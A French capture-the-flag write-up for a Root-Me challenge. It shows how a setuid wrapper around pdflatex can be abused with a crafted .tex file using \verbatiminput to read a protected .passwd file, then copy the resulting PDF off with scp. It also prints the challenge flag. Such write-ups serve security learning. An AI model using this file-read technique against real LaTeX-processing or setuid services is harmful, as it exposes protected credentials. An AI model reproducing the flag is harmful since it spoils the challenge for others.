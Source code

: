 # LaTeX - Input

# Description : 

> Dans ce défi, il y a un script bash qui prend un fichier *.tex* en entrée et l'utilise pour générer un fichier *.pdf* avec le programme `pdflatex`.
> Il est donc possible de profiter de `pdflatex` pour inclure le fichier **.passwd** lors de la génération du *.pdf*.
> Une approche est proposée à gtfobins.github.io (https://gtfobins.github.io/gtfobins/pdflatex/).

# Exploit : 

> Tout d'abord, il faut créer un dossier dans **/tmp** qui sera utilisé pour héberger le fichier *.tex* contenant l'exploit.
> 
> `mkdir -p /tmp/ch23-exploit`
> 
> Ensuite, il faut créer le fichier *.tex* contenant l'exploit, en s'assurant qu'il pointe correctement vers le fichier **.passwd**.
> 
> `echo '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{/challenge/app-script/ch23/.passwd}\end{document}' > /tmp/ch23-exploit/exploit.tex`
> 
> Enfin, il suffit d'exécuter le script via le wrapper pour gérer les droits d'exécution et lui passer le fichier *.tex* en paramètre.
> 
> `./setuid-wrapper /tmp/ch23-exploit/exploit.tex`
> 
> Le fichier *.pdf* sera généré dans un dossier sous **/tmp**. Il faudra donc récupérer ce fichier sur son propre ordinateur en utilisant, par exemple, scp.
> 
> `scp -P 2222 app-script-ch23@challenge02.root-me.org:/tmp/[NOM-DOSSIER]/main.pdf .`
> 
> Le flag sera indiqué en clair dans le *.pdf* : **LaTeX_1nput_1s_n0t_v3ry_s3kur3**
